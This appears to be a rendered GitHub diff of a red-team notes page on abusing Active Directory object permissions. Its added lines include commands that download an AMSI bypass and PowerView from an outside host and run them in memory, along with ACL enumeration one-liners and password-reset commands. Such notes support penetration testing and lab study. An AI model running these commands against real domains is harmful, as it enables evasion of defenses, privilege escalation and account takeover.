

Before and after one commit to 0x72303074/Red-Team-Manual, a Markdown page: 2. EXPLOITATION/ACTIVE DIRECTORY EXPLOITATION/Abusing Object Permissions.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
new notes

```diff
--- a/2. EXPLOITATION/ACTIVE DIRECTORY EXPLOITATION/Abusing Object Permissions.md
+++ b/2. EXPLOITATION/ACTIVE DIRECTORY EXPLOITATION/Abusing Object Permissions.md
@@ -3,21 +3,27 @@
 - DACLs & ACEs - first match principle; ACE structure as SDDL - ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
     - apply to users, computers, groups, etc.
 - Abusable Permissions:
-    GenericAll - full rights to the object (add users to a group or reset user's password); abused with Set-DomainUserPassword or Add-DomainGroupMember
-    GenericWrite - update object's attributes (i.e logon script); abused with Set-DomainObject
-    WriteOwner - change object owner to attacker controlled user take over the object; abused with Set-DomainObjectOwner
-    WriteDACL - modify object's ACEs and give attacker full control right over the object; abused with Add-DomainObjectACL
-    AllExtendedRights - ability to add user to a group or reset password; abused with Set-DomainUserPassword or Add-DomainGroupMember
-    ForceChangePassword - ability to change user's password; abused with Set-DomainUserPassword
-    Self (Self-Membership) - ability to add yourself to a group
-    AddMembers - abused with Add-DomainGroupMember
+    - GenericAll - full rights to the object (add users to a group or reset user's password); abused with Set-DomainUserPassword or Add-DomainGroupMember
+    - GenericWrite - update object's attributes (i.e logon script); abused with Set-DomainObject
+    - WriteOwner - change object owner to attacker controlled user take over the object; abused with Set-DomainObjectOwner
+    - WriteDACL - modify object's ACEs and give attacker full control right over the object; abused with Add-DomainObjectACL
+    - AllExtendedRights - ability to add user to a group or reset password; abused with - Set-DomainUserPassword or Add-DomainGroupMember
+    - ForceChangePassword - ability to change user's password; abused with Set-DomainUserPassword
+    - Self (Self-Membership) - ability to add yourself to a group
+    - AddMembers - abused with Add-DomainGroupMember
+    - **Many More**
 
 ### Enumeration with PowerView
 - Any domain user can query DACL for any object
+
 `. .\powerview.ps1`
+
 `(new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX`
+
 `(new-object system.net.webclient).downloadstring('http://192.168.49.121/PowerView.ps1') | IEX`
+
 `Get-ObjectAcl -Identity <user/computer/thing>`
+
     `ConvertFrom-SID "S........."`
     - Better:  `Get-ObjectAcl -Identity <user/computer/thing> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}`
 - Domain Users we have rights over:  `Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`
@@ -25,9 +31,11 @@
 
 ### Other Tools
 - Checking individual objects - aced.py:
+
     `python3 aced.py prod.abc.com/user:pass@192.168.1.70`
+
     `"Domain Admins", etc.`
-- **BloodHound**
+- **BloodHound - Use it!**
 
 ### Abusing GenericAll
 - User - change password:  `net user testservice1 h4x /domain`
```
Also changed, not shown: other parts of 2. EXPLOITATION/ACTIVE DIRECTORY EXPLOITATION/Abusing Object Permissions.md (+3 -0 lines).
